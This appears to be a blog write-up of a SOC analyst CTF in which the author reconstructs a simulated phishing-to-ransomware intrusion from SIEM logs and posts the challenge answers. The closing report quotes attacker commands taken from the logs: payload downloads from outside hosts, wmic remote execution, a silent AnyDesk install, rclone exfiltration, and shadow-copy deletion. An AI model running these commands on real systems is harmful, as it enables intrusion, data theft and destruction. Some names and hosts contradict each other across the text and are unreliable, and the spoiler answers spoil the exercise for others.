The Infosec Wizard SOC Analyst CTF  — "Scanned Document 468" created by AJ gives us a hands-on SIEM investigation with the following scenario: 

"Meridian Group, a mid-size company, was compromised. Something arrived by email, someone opened it, and it went downhill from there — an endpoint foothold, hands-on-keyboard activity, movement onto the servers, and eventually a serious impact event. Your job is to reconstruct what happened from the logs.

The environment is realistic: alongside the real intrusion there's legitimate, benign activity that looks similar — an IT support tool, a routine vulnerability scan, a sanctioned backup job, ordinary business travel. Every question asks about the attacker's activity, so read carefully and rule out the noise."


https://github.com/jirosgyros/soc-ctf-scanned-document-468

I went with the Elasticsearch/Kibana option A and ran into needing to supply it with credentials but no cert so I just had to remove the s from the second command.

```
python elastic/load_elastic.py --url http://localhost:9200 --index iceid --user elastic --password <your-password> --no-verify
```

This post is very spoiler heavy so I would suggest doing the investigation before reading if you haven't already.

You should also watch the livestream recordings as they are a great learning experiences.
https://www.youtube.com/live/vNR_mJbxlqE
https://www.youtube.com/live/lUjQQZFRHJk

-------
Q1. How many distinct `sourcetype`s are present in the index?

The answer is 7 which can be found by following the instructions and reading the data dictionary.
https://github.com/jirosgyros/soc-ctf-scanned-document-468/blob/main/data-dictionary.md

Q2. Which user executed the malicious file delivered by the phishing email?

The answer can be seen by filtering down by the proofpoint source type.

dana.k

Note: How do you know this just from proofpoint logs? I don't think you can, I just went off of the name of the CTF scenario. If you check official the walkthrough there are actual ways of investigating this.



Q3. What was the filename of the malicious file that was downloaded and executed?

Document_Scan_486.js



Q4. On which host did the initial infection occur?

The hostname can be seen in the same event mer-wks-114.corp.local

Q5. What was the first child process the malicious script spawned?

The cmd.exe can be seen in the next chronological event.

Q6. Which LOLBin (living-off-the-land binary) executed the dropped payload?

The LOLBin rundll32.exe can be seen in the next chronological event.

Q7. What is the name of the scheduled task created for persistence?

Searching by the event id for scheduled tasks (4698) gives us one event with a task name of: \MicrosoftUpdateSync




Q8. From which file-sharing service was the second-stage beacon downloaded?



Continuing from the initial document open time frame we can see the next download in the sysmon sourcetype https[]:]//file.io/OUXPza4b4uxZ - ( file[.]io is the answer)

Q9. To what path on disk was the second-stage payload saved?

We can see the path in the same event
C:\ProgramData\update.dll

Q10. Name one command-and-control (C2) destination the beacon contacted (domain or IP).

In the same time frame we can see an event where it beacons to winupdate[.]us.to



Note: another one where I think trial-and-error plus CTF context helped more than being able to see it just from this alert.

Q11. Name one Active-Directory-reconnaissance tool or command run from the beacon.

nltest



Pretty obviously suspicious especially given the net command next to it regarding Domain Admins.

Q12. Which domain controller did the attacker access?

Further in the time frame we can see a wmic command that has MER-DC01 listed.



Q13. What mechanism did the attacker use to execute the beacon on the domain controller?

Same event as the last question, wmic was used as previously mentioned.

Q14. How many minutes after the first beacon check-in was the domain controller reached?

6 minutes - we subtract the timestamp of the wmic event from the initial file[.]io download seen in Q8.

Q15. What remote-access tool did the attacker install for persistence?

Moving further down the time frame we can see that they install anydesk.



Q16. What is the name of the hidden local admin account the attacker created?



oldadministrator - I wasn't looking far enough ahead in the time frame originally.

Since this is a registry change, in the future, I could search for event id 4657 or specific parts of the ObjectName to pull the special accounts portion in future investigations.

Q17. What file did the attacker open on a network share to harvest credentials?



passwords.xlsx

It's easy to dismiss this as a simulated scenario, but I've seen weirder things than a passwords.xlsx on a domain controller.
Basic security hygiene is always needed.

Q18. What tool did the attacker use to exfiltrate data?

rclone (see dfir report)
https://thedfirreport.com/2024/04/29/from-icedid-to-dagon-locker-ransomware-in-29-days/
I found a dfir report write up at this point so I knew to search for rclone. 
Definitely better ways to investigate this.



Q19. To what cloud service was the data exfiltrated?

I tried AWS (see dfir report) - not correct need to dig into the logs for now I'll see if I can track down the rclone event. Did that, the answer is S3 specifically.

Q20. What command did the attacker run to delete volume shadow copies?

I actually saw this one by accident looking an answer to an earlier question and filled it out since I recognized the command.



vssadmin delete shadows /all /quiet

Q21. Which Windows Security Event ID indicates the attacker cleared the event log?

Event id: 1102
I looked this one up, I definitely need to spend more time with event IDs. I should probably make a poster or something. 



Q22. The attacker ran the ransomware on the domain controller. What on-disk **payload file (the DLL)** did they execute to encrypt the files?



rundll32.exe C:\ProgramData\microsoft\sysfunc.dll,#1 -lockername sysfunc

- sysfunc.dll
This one was pretty easy, I just manually scrubbed through logs until I saw -lockername, I could have searched for it though!

Q23. What MITRE ATT&CK **technique ID** describes that file-encryption step?

T1486
https://attack.mitre.org/tactics/TA0040/
[T1486](https://attack.mitre.org/techniques/T1486)

Just a matter of looking it up.

Q24. Take the encryption together with the recovery-inhibition step that immediately preceded it (Q20). **What class of attack** is this incident? (one word is enough)

Class of attack - ransomware

Q25. Pivot on the encryption IOCs — the payload's name, its `-lockername` argument, and the extension the encrypted files were renamed to. **What ransomware family** does this intrusion attribute to?

Ransomware family - dagon

Between the dfir report and the sentinel one blogposts on it this answer was pretty easy to come to. I based this mostly off of the dagoned file extension which could be seen in the logs.
https://www.sentinelone.com/anthology/quantum/
https://thedfirreport.com/2024/04/29/from-icedid-to-dagon-locker-ransomware-in-29-days/

Q26.
Capstone
Now put it together. Classify the incident and state the attacker's objective. Your answer should cover: the extortion model, the order of operations (relative to encryption), the specific malware/tooling chain observed across the intrusion, and whether this is attributable to a named APT or a different kind of actor. This question is reviewed by a mentor, not auto-graded.

Didn't get a response on this, I don't think I will, I was late in starting the CTF. 

Looking back I don't know if I still agree with the attribution portion as I submitted it originally, as I don't have a good explanation for that part.

I know there is a lot I need to improve on, so any feedback is welcome.

I wrote a long winded report instead of a summary that would fit in the submission box, so I went and pared it down. I'm including both here:


Classification: Critical  
The attackers' objective is monetary gain.   
The extortion model is double extortion via exfiltrating data before threatening to leak it and encryption of critical data to hold ransom. 
The order of operations relative to the encryption are as follows:  
1. Exfiltrate data via rclone to AWS S3.
2. Delete volume shadow copies silently using vssadmin.  
3. Run a custom dll to encrypt the files (sysfunc.dll) resulting in the dagoned file extension. 
4. Output a Ransom note (Readme)   The specific malware/tooling chain observed across the intrusion are as follows: 
AnyDesk  
schtask
netsh
Powershell Cmdlets
wmic
AdFind
net
nlist
rclone
Dagon Locker Ransomware.

This incident may be attributable to the Ransomware as a Service (RAAS) group known as Quantum evidenced by the TTPs utilized and IOCs throughout.

----
Classification: Critical 

Actions taken: Immediate isolation of host mer-wks-114[.]corp[.]local and escalation to SOC lead per our Incident Response playbook. 

 The attackers' objective is monetary gain. 

The extortion model is double extortion via exfiltrating data before threatening to leak it and encryption of critical data to hold ransom. 

The order of operations relative to the encryption are as follows: 1. Exfiltrate data via rclone to AWS S3. 

2. Delete volume shadow copies silently using vssadmin. 

3. Run a custom dll to encrypt the files (sysfunc.dll) resulting in the dagoned file extension. 

4. Output a Ransom note (Readme) 

The specific malware/tooling chain observed across the intrusion are as follows: 

Initial Access 

Phishing email titled “Scanned Document 468” is opened by the end user dana.k. The user is tricked into running a malicious JavaScript file https://moashraya[.]com/scan/468/Document_Scan_468[.]js which we can see executed via "C:\Windows\System32\wscript.exe" "C:\Users\dana.k\Downloads\Document_Scan_468.js" Which in turn downloads     cmd.exe /c curl https://moashraya[.]com/out/t[.]php --output %temp%\magni.waut.a --ssl no-revoke --insecure –location Once downloaded we can see it being run with rundll32.dll ([https://lolbas-project.github.io/lolbas/Binaries/Rundll32/](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)) rundll32.exe C:\Users\dana.k\AppData\Local\Temp\magni.waut.a,scab /k arabika752 

Persistence 

A scheduled task named MicrosoftUpdateSync gets created. 

Foothold 

Next, we can see it beacon to the C2 server 

powershell.exe (New-Object System.Net.WebClient).DownloadFile("https://file[.]io/OUXPza4b4uxZ","C:\ProgramData\update.dll")  We also see it reach out to winupdate[.]us[.]to a known IOC as it is also C2 server. 

Recon 

We can see it makes various PowerShell commands to get info about the endpoint. 

Multiple nltest commands are made as well. 

Escalation/Lateral movement 

We see wmic used to execute the beacon on the domain controller. wmic /node:MER-FS01 process call create "rundll32 C:\ProgramData\update.dll,HTVIyKUVoTzv 

We can see the attacker install AnyDesk for further persistence. 

C:\ProgramData\AnyDesk.exe --install C:\ProgramData\AnyDesk --silent --start-with-win (client-id 150937834) 

And then a hidden administrator user called oldadminstrator is made which is seen in EventID 4657. The attacker accesses a passwords spreadsheet on the share to harvest credentials (time to review our security policy enforcement). 

Data Exfiltration 

Here we see the attacker exfiltrate data via rclone to AWS S3. copy C:\ProgramData\microsoft remote:mer-backup-9f2 --transfers 8 --s3-provider AWS 

Data Impact 

Here the attackers delete volume shadow copies using: vssadmin delete shadows /all /quiet Then we see EventID   1102 which tells us that they have cleared the Event logs. The attacker runs ransomware on the domain controller via: rundll32.exe C:\ProgramData\microsoft\sysfunc.dll,#1 -lockername sysfunc 

This incident may be attributable to the Ransomware as a Service (RAAS) group known as Quantum evidenced by the TTPs utilized and IOCs throughout.